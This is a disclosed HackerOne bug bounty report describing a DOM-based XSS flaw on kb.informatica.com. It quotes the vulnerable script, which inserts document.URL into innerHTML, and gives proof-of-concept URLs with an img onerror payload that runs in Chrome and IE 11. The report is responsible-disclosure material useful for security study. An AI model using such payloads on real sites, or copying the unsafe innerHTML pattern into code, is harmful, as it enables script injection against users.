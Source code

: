 # [kb.informatica.com] Dom Based xss

## Report Details
- **Report ID**: 156166
- **URL**: https://hackerone.com/reports/156166
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2016-08-02T20:04:02.673Z
- **Disclosed**: 2019-08-17T09:48:13.150Z

## Reporter
- **Username**: e3xpl0it
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: informatica

## Vulnerability Information
Hi! I found Dom based xss on this subdomain https://kb.informatica.com
javaScript security is very important, even more in portals where users store their personal data. 
Attackers can target those portals to find and exploit High-risk JavaScript vulnerabilities like Dom based xss vulnerabilities

POC ,the vulnerable code javascript on this page https://kb.informatica.com/KBExternal/pages/infasearchltd.aspx?
view-source: string 1406 /*google chrome

var li = document.createElement("li");
strChild = "<a href="+document.URL+" style='color:#fff !important;font-size:10px'>Search Results</a>";
li.innerHTML = strChild; document.getElementById('DynamicBreadcrumb').appendChild(li);
} 

attack scenario the latest versions of browsers
google chrome https://kb.informatica.com/KBExternal/pages/infasearchltd.aspx?#"><img src=x onerror=alert(document.domain)>&infasearch.aspx=hek
IE 11  https://kb.informatica.com/KBExternal/pages/infasearchltd.aspx?#"><img src=x onerror=alert(document.domain)>&infasearch.aspx=hek 


## Attachments
- Chrome-Dom_XSS.jpg
- IE-11_Dom_xss.jpg
